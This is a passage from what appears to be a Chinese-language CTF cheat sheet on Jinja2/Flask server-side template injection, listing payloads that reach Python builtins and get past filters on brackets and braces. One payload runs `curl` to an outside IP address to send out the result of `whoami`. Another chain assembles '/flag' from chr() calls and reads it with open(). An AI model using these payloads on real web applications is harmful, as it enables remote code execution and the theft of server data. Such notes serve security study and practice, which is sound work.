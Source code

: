 11.list

```
(()|select|string)[0]
如果中括号被过滤了，挺难的
但是列表的话就可以用pop取下标了
当然都可以使用__getitem__
(()|select|string|list).pop(0)

```

#### 获取内置方法 以chr为例

```
"".__class__.__base__.__subclasses__()[x].__init__.__globals__['__builtins__'].chr
get_flashed_messages.__globals__['__builtins__'].chr
url_for.__globals__['__builtins__'].chr
lipsum.__globals__['__builtins__'].chr
x.__init__.__globals__['__builtins__'].chr  (x为任意值)

```

#### request获取参数

如果是在web环境下面则可以利用下面获取参数

```
request.args.x1   	get传参
request.values.x1 	post传参
request.cookies
request.form.x1   	post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		post传参	(Content-Type:a/b)
request.json		post传json  (Content-Type: application/json)

```

#### **在jinja2里面可以利用~进行拼接**

```
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
```



## 过滤`{{`或者`}}`

可以使用`{%`绕过
{%%}中间可以执行if语句，利用这一点可以进行类似盲注的操作或者外带代码执行结果

```
python2
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://39.105.116.195:8080/?i=`whoami`').read()=='p' %}1{% endif %}
python3 上面前置知识都讲了
{% set po=dict(po=a,p=a)|join%} //pop
{% set a=(()|select|string|list)|attr(po)(24)%} //获取_
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%} //获取__init__
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}  //获取__globals__
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%} //获取__getitem__
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}  //获取__builtins__,后面不必多说了都懂得
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(file).read())%}
```
